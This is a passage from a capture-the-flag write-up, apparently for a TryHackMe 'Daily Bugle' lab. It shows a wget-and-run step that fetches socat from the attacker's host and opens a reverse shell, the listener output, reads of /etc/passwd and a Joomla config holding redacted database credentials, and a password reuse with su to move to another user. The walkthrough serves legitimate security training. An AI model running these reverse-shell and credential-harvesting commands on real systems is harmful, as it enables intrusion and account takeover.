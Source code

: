 I'm user `apache`!

**Stable shell via `socat`:**
```
bash-4.2$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Daily-Bugle]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/18 10:18:23 socat[50374] N opening character device "/dev/pts/2" for reading and writing
2022/10/18 10:18:23 socat[50374] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/18 10:18:26 socat[50374] N accepting connection from AF=2 10.10.47.144:59328 on AF=2 10.9.0.253:4444
                                                                  2022/10/18 10:18:26 socat[50374] N starting data transfer loop with FDs [5,5] and [7,7]
                                              bash-4.2$ 
bash-4.2$ stty rows 22 columns 107
bash-4.2$ export TERM=xterm-256color
bash-4.2$ ^C
bash-4.2$ 
```

## Privilege Escalation

### apache to jjameson

```
bash-4.2$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

- Found 1 user: `jjameson`

**In `/var/www/html/configuration.php `, I found a hardcoded MySQL credentials:**
```
bash-4.2$ cat /var/www/html/configuration.php 
[...]
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = '{Redacted}';
[...]
```

**Maybe the user `jjameson` has reused this password? Let's try:**
```
bash-4.2$ su jjameson
Password: 
[jjameson@dailybugle /]$ whoami;id
jjameson
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```
